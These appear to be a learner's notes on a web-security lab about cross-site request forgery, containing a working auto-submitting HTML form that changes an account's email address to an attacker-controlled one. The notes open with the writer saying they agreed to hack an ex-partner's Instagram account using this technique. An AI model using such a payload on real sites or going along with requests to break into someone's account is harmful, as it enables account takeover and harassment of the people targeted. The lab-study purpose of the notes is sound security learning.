 # NOTES
Someone asked me to hack into their ex's Instagram. I told them sure thing I could use an X-Site-Request-Forgery. 

## LEARNINGS
- Learned how to CSRF exploit payload
- "hidden" : Parameter to hide an input field in a form. Devs used to have these to store data that couldn't be seen or changed by the users. *BURP*

### EXPLOIT 
- Payload was a simple HTML docco that created a new request to the vulnerable website, no barricades or encodings or tokens to face. 
- Web server Payload :

		404 : Not Found 
		<html>
		  <body>
		    <form action="ac551f441e3163cec054361900cb0070.web-security-academy.net/my-account/change-email=" method="GET">
		      <input type="hidden" name="email" value="pwned@evil-user.net" />
		    </form>
		    <script>
		      document.forms[0].submit();
		    </script>
		  </body>
		</html> 
![[Pasted image 20220126053548.png]]


